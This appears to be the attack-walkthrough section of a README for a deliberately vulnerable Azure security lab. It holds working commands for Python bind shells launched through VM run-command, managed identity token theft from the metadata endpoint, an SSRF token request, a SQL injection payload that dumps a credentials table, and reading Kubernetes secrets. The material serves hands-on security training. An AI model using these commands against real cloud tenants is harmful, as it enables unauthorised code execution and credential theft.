

## Attacks

This section is not complete and by no means exhaustive. The idea is to give some hints on what is possible in the lab.

## Architecture



The same diagram as a PDF can be found in `/attacks/AzureLabFull.pdf`.

### SSH to Rocinante via Azure AD
(This only works if you activated MFA for the user aburton)
First, login as `aburton@yourdomain` via `az login`.
Then: 
```
az ssh vm -n Rocinante -g [lab_uniq_id]_ExpanseAzureSecLab
```

### SSH to Rocinante/Scopuli via Key
`ssh [Rocinante/Scopuli_admin_user]@[Rocinante/Scopuli_public_IP] -i [Rocinante/Scopuli_private_key]`

### Use Alex SP for RCE on Rocinante

Starting with the SP: Alex

First, login to `az cli` with Alex SP.
```bash
az login --service-principal -u "[alex_app_id]" -p "[alex_sp_password]" -t [your_tenant_id]
```

#### Optional: Check permissions for the SP.
Note: Alex SP himself cannot list his permissions.
```bash
az role assignment list --assignee "[alex_app_id]" --all --include-inherited --include-groups --output json --query '[].{principalName:principalName, roleDefinitionName:roleDefinitionName, scope:scope}'
```
This returns a role name. Check the role permissions:
```bash
az role definition list --name "VM_Rocinante_RunCommand_ExtensionsWrite_lab_uniq_id"
```
#### Create a bind shell on Rocinante using Azure CLI:

```bash
az vm run-command invoke --resource-group [rg_name] -n Rocinante --command-id RunShellScript --scripts "python3 -c 'exec(\"\"\"import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind((\"0.0.0.0\",51337));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())\"\"\")'"
```

### Use Managed Identity on VM

An example attack is to use the user-assigned managed identity bound to the `Rocinante` VM to execute code on the `Scopuli` VM:

1. SSH to the `Rocinante`: `ssh [Rocinante_admin_user]@[Rocinante_public_IP] -i [Rocinante_private_key]`
2. Install `azure-cli` on the VM (`sudo apt update && sudo apt install azure-cli`)
3. Log in with the user MI on the `Rocinante` VM: `az login --identity --user [KeysToTheScopuli_MI_principal_id]`
4. Confirm RCE is possible: `az vm run-command invoke --resource-group [lab_uniq_id]_ExpanseAzureSecLab -n Scopuli --command-id RunShellScript --scripts "touch /runcommandTest.txt"`

### Get Managed Identity token on VM

Get access token of the attached MI:
```bash
ARM_TOKEN=$(curl -s -H Metadata:true "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com" | sed -n 's/.*"access_token":"\([^"]*\)".*/\1/p')
```

### Execute bind shell on VM (Scopuli) using API
This needs the "Get Managed Identity token on VM" technique to obtain a JWT token first.

Execute code on Scopuli using the access token via curl:

Fill in the variable:
```
SCO_ID="/subscriptions/[your_sub_id]/resourceGroups/[your_rg]/providers/Microsoft.Compute/virtualMachines/Scopuli"
```

```bash
curl -s -X POST -H "Authorization: Bearer $ARM_TOKEN" \
     -H "Content-Type: application/json" \
     "https://management.azure.com${SCO_ID}/runCommand?api-version=2024-11-01" \
     --data-binary @- <<'EOF'
{
  "commandId": "RunShellScript",
  "script": [
    "python3 -c 'exec(\"\"\"import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind((\"0.0.0.0\",51337));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())\"\"\")'"
  ]
}
EOF
```

### Accessing tycho-db from the Scopuli VM

Scopuli has owner permissions for the tycho-db - (might be worth finding out why ;) ). This can be used to access the DB:
```
sqlcmd -S tcp:[tycho_fqdn] -d tycho-db --authentication-method ActiveDirectoryDefault
```

### Tycho-terminal web service

This one is very vulnerable and has at least 3 paths you can take to get further in the lab.

#### SSRF
Microsoft implemented some additional security for App Services, exploiting a SSRF to obtain an identity token is not as easy as in a VM where you can simply access http://169.254.169.254/metadata. 

Take a look here:
https://learn.microsoft.com/en-us/azure/app-service/overview-managed-identity?tabs=portal%2Chttp

Curl solution:
```
curl -s -v -X POST \
   -H "Content-Type: application/json" \
  "http://[tycho_fqdn]/api/proxy" \
  --data '{"url": "http://[your_msi_endpoint]/msi/token?resource=https://vault.azure.net&api-version=2019-08-01", "headers":"X-IDENTITY-HEADER: [your_msi_secret]"}'
```

#### SQL Injection

The folks working for the OPA on the Tycho terminal clearly prioritize function over security. There are many ways to exploit this. One solution:
```
' union select id,subject_name,secret,principal_type, id from dbo.espionage_credentials;--
```

#### Storage Container Info Leak

In the leaked environment variables the URL of the deployed source code can be found. That one leaks the name of the storage account labpallas which also holds some other juicy information, like Alex's credentials. 


### AKS Secrets Access

First, log in as the Chrisjen SP
```
az login --service-principal -u "[chrisjen_client_id]" --password '[chrisjen_client_secret]' -t tenant_id
```

Get cluster credentials
```
az aks get-credentials \
  --resource-group [lab_uniq_id]-ExpanseAzureSecLab \
  --name un_fleet_[lab_uniq_id] \
  --query "apiServerAccessProfile.enablePrivateCluster" --overwrite-existing
```

Convert to kubeconfig from Azure auth
```
kubelogin convert-kubeconfig \
  -l azurecli
```
Read secrets:
```
kubectl get secrets -o json
```
